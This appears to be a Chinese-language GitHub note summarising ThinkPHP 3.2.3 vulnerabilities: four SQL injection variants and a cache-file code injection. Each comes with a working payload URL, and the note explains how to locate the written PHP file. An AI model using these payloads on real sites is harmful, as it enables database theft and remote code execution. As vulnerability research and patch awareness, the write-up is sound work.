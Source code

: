 # tp3
tp3注入总结。


漏洞版本3.2.3，听说这个版本是tp3使用最广泛的版本，但是截止到2021应该已经都升级到3.2.5。         
3.2.5是tp3最后一个版本，修复了下面这些注入漏洞。    

附加了一个缓存的洞，出镜率比较高。其实tp3还有一堆命令执行的可直接看最后的参考文章，写的都不错。   

## exp注入
```
$User->field('username,age')->where(array('username'=>$name))->select();
```

直接传数组，第一个参数是exp表达式直接放过。
接收参数如果没有使用I方法，而是直接使用$_GET等接收外部变量，那么这里就有sql注入的问题。   
```
http://tp.test:8888/index.php/home/index/test?name[0]=exp&name[1]=='1' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) #
```

## update注入
```
        $res = $User->where(array('name'=>$name))->save($data);
```
利用I方法获取输入时并没有过滤BIND，后面修过一次过滤了BIND。    
如果直接$_GET等接收外部变量一定存在       
```
http://tp.test:8888/index.php/home/index/test?name[0]=bind&name[1]=0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## where 注入
```
  	$res = $User->find($id);
```

 传入可控的where条件导致，delete(), select() ，find()方法具有相同问题，也在ThinkPHP3.2.4中被修复    
 ```
http://tp.test:8888/home/index/test?id[where]=(1=1) and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## order by 注入

```
res = $User->order($order)->find();
```
order参数可控的场景   
```
http://tp.test:8888/home/index/test?order=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)
```

## 缓存漏洞
在TP5一些版本中也有这个漏洞，但是TP5的入口文件更加安全，这个漏洞并一定能利用。    
```
http://tp.test:8888/home/index/test?name=%0d%0aphpinfo();%0d%0a//   
```
```
0x0d - \r, carrige return 回车
0x0a - \n, new line 换行
Windows 中换行为0d 0a
UNIX 换行为 0a
```

参数名`name`决定泄露缓存文件名，
```
S('name',$name);
```
md5(name)=b068931cc450442b63f5b3d276ea4297，   
文件名则为：b068931cc450442b63f5b3d276ea4297.php，   
默认目录为Application/Runtime/Temp，然后访问我们的php文件   




# 参考



- https://github.com/top-think/thinkphp   
- https://xz.aliyun.com/t/2630
- https://www.freebuf.com/vuls/282906.html
- https://www.anquanke.com/post/id/250537










